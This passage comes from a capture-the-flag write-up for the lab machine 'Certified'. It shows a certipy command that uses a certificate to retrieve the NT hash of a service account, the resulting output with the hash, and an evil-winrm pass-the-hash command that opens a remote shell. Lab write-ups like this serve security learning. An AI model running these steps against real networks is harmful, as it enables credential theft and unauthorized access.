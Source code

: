 now lets retrieve the NTLM hash
```bash
certipy auth -pfx unprotected_pfx.pfx -username "management_svc" -domain "certified.htb"
```

```bash
[!] Could not find identification in the provided certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```

now we have `management_svc` hash, we can use it with `evil-winrm` to get a shell

```bash
evil-winrm -i 10.10.11.41 -u 'management_svc'  -H 'a091c1832bcdd4677c28b5a6a1295584'
```
and get the user flag


# Privileges escalation
![](src/assets/certified/Certified_image_2.png)
